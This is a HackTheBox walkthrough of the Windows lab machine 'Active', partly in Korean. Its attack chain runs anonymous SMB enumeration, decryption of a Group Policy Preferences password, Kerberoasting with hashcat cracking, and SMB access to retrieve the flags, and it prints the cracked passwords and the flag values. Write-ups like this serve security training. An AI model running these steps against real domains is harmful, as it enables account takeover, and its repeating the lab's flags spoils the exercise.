# HackTheBox Walkthrough - Active

**Machine Name**: Active  
**Target IP**: 10.129.225.44  
**Operating System**: Windows Server 2008 R2 SP1  
**Difficulty**: Medium  

---

## 🧭 Enumeration

### 🔍 Nmap Scan

```bash
nmap -Pn -n --open -p- --max-retries 1 --min-rate 2000 10.129.225.44
nmap -sV -sC -oA nmap/Active 10.129.225.44 -p 53,88,135,139,389,445,464,593,636,3268,3269,5722,9389,47001,49152-49168
```


**Ports Identified:**
- SMB 관련 포트: 139, 445
- LDAP: 389, 3268
- Kerberos: 88
- 기타 RPC, HTTPAPI 등 포함

---

## 📂 SMB Enumeration

```bash
smbclient -L //10.129.225.44 -N
```


**Shares:**
```
ADMIN$
C$
IPC$
NETLOGON
Replication
SYSVOL
Users
```

✅ **총 7개의 SMB 공유 폴더 존재**  
✅ **익명 읽기 가능한 공유 폴더**: `Replication`

---

## 🔐 GPP Credential Leak

```bash
smbclient //10.129.225.44/Replication -N
cd active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Preferences/Groups/
get Groups.xml
```



**📄 Groups.xml 내용 요약:**
- 사용자: `SVC_TGS`
- 암호화된 비밀번호(cpassword) 존재

```xml
<User ... userName="active.htb\SVC_TGS" cpassword="edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLf..." />
```

**복호화:**

```bash
gpp-decrypt 'edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLf...'
```


✅ **복호화된 패스워드**: `GPPstillStandingStrong2k18`

---

## 🔑 사용자 플래그 획득


```bash
smbclient -U 'ACTIVE\SVC_TGS' //10.129.225.44/Users
cd SVC_TGS/Desktop/
get user.txt
```

📄 **User Flag**:
```
2b1315e704553f8423562cb29ed99ea1
```


---

## 🦀 Kerberoasting

```bash
GetUserSPNs.py active.htb/SVC_TGS:GPPstillStandingStrong2k18 -dc-ip 10.129.225.44
```


- vulnerable service account: `Administrator`
- SPN: `active/CIFS:445`

```bash
GetUserSPNs.py active.htb/SVC_TGS:GPPstillStandingStrong2k18 -dc-ip 10.129.225.44 -request > hash.txt
hashcat -m 13100 hash.txt /usr/share/wordlists/rockyou.txt --force
```



✅ **Cracked Password**: `Ticketmaster1968`

---

## 🧠 Root 플래그 획득

```bash
smbclient -U 'ACTIVE\Administrator' //10.129.225.44/Users
cd Administrator/Desktop/
get root.txt
```


📄 **Root Flag**:


```
1fdde5163e1c0ee88a54fa5facb901a1
```

---

✅ **공격 요약**
- GPP(Grouppolicy Preferences) XML에서 SVC_TGS 계정 비밀번호 추출
- Kerberoasting을 통한 Administrator 티켓 덤프 및 크래킹
- SMB를 통해 플래그 획득
